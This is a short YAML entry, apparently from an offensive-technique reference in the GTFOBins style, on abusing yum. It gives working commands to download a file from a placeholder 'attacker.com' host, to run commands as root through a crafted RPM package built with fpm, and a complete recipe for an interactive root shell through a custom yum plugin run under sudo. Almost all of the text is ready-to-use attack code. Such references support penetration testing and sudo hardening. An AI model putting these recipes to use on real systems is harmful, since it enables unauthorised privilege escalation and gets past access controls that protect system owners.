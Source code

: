 functions:
  file-download:
    - description: Fetch a remote file via HTTP GET request. The file on the remote host must have an extension of `.rpm`, the content does not have to be an RPM file. The file will be downloaded to a randomly created directory in `/var/tmp`, for example `/var/tmp/yum-root-cR0O4h/`.
      code: |
        RHOST=attacker.com
        RFILE=file_to_get.rpm
        yum install http://$RHOST/$RFILE
  sudo:
    - description: |
        It runs commands using a specially crafted RPM package. Generate it with [fpm](https://github.com/jordansissel/fpm) and upload it to the target.
        ```
        TF=$(mktemp -d)
        echo 'id' > $TF/x.sh
        fpm -n x -s dir -t rpm -a all --before-install $TF/x.sh $TF
        ```
      code: |
        sudo yum localinstall -y x-1.0-1.noarch.rpm
    - description: |
        Spawn interactive root shell by loading a custom plugin.
      code: |
        TF=$(mktemp -d)
        cat >$TF/x<<EOF
        [main]
        plugins=1
        pluginpath=$TF
        pluginconfpath=$TF
        EOF

        cat >$TF/y.conf<<EOF
        [main]
        enabled=1
        EOF

        cat >$TF/y.py<<EOF
        import os
        import yum
        from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
        requires_api_version='2.1'
        def init_hook(conduit):
          os.execl('/bin/sh','/bin/sh')
        EOF

        sudo yum -c $TF/x --enableplugin=y
---
